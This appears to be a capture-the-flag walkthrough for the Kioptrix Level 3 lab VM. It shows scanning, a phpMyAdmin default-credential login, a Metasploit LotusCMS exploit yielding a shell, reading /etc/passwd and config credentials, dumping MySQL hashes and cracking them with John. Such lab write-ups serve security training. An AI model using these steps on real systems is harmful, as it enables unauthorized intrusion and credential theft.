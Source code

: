 # Kioptrix Level 3

### Contents

Our target network is `10.0.2.0/24`.

# Footprinting
Find the IP address of the target host via:

```bash
netdiscover -r 10.0.2.0/24
```

For the purpose of this guide we will assume our target is at IP address **10.0.2.9**.

As per the instructions we modify `/etc/hosts` so our target is at **kioptrix3.com**.
# Reconnaisance

We perform an initial scan as follows:

```bash
nmap 10.0.2.9
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
MAC Address: 08:00:27:50:6F:FB (Oracle VirtualBox virtual NIC)
```

Let's check for UDP ports:

```bash
nmap -sU 10.0.2.9
```

Let's do version detection:
```bash
nmap -O 10.0.2.9
```

```
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
```

Now we proceed by examining each of the services on the machine.
Starting with the most interesting.

# HTTP

```bash
nikto -host kioptrix3.com
```

We find a **phpmyadmin** page.

## phpMyAdmin

```
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ PHP/5.2.4-2ubuntu5.6 appears to be outdated (current is at least 5.6.9). PHP 5.5.25 and 5.4.41 are also current.
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Server leaks inodes via ETags, header found with file /favicon.ico, inode: 631780, size: 23126, mtime: Fri Jun  5 15:22:00 2009
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 7444 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2019-03-06 11:22:36 (GMT-5) (46 seconds)
```

When we navigate to the admin console via the browser we find we try the following:

```
root:
admin:admin
':
```

This works and we are logged in as `'@localhost`.

The console gives the following information:

```
Server version: 5.0.51a-3ubuntu5.4
phpMyAdmin - 2.11.3deb1ubuntu1.3
MySQL client version: 5.0.51a
```

We can see the following database:
```
information_schema
```
However, at this stage we are unable to use any SQL injection at our current low privilege level.

## LotusCMS

Browsing around the site we can see a blog and a login portal.

The portal states that it is:
> Proudly powered by LotusCMS

A simple `searchsploit` on this CMS reveals the following:
https://www.rapid7.com/db/modules/exploit/multi/http/lcms_php_exec.

We used Metasploit to gain a Meterpreter shell like follows:

```
use exploit/multi/http/lcms_php_exec
set RHOST kioptrix3.com
set URI /index.php?system=Admin
exploit
```

## Initial Shell

```
meterpreter > getuid
Server username: www-data (33)

meterpreter > cat /etc/passwd
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash

meterpreter > sysinfo
Computer    : Kioptrix3
OS          : Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686
Meterpreter : php/linux
```

Looking at the PHP files we can see some of the config files. Of interest is `gconfig.php` which contains some GLOBALS:

```PHP
$GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```

Looking around the filesystem we can see some interesting files in the home of user `loneferret`.

```bash
cat /home/loneferret/CompanyPolicy.README
```

```
It is company policy to use 'sudo ht' to edit and view files.
```

## MySQL

We can see the daemon running:

```
/usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --user=mysql --port=3306
```

Using `root:fuckeyou` we can login to the database using `mysql`.

```
mysql -u root -p --port=3306
```

Doing this via Meterpreter we need to use `shell`.
This did cause difficulties in terms of output being unreliable to the screen, however using `; ?` seemed to work.

Now we can run some commands on the Database:

```SQL
USE DATABASE MYSQL;
SELECT * FROM users;
```

```
localhost	root	*47FB3B1E573D80F44CD198DC65DE7764795F948E
```

```SQL
USE DATABASE gallery;
SELECT * FROM dev_accounts;
```

| id | username   | password                         |
|----|------------|----------------------------------|
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e |

**Now we have some account hashes to crack.**

## Cracking Hashes

We put our hashes in a file and let `john` loose:

```bash
john hashes.txt --format=Raw-MD5
```

We find `loneferret:starwars` pretty quickly.

We can then `ssh` into `kioptrix3`.
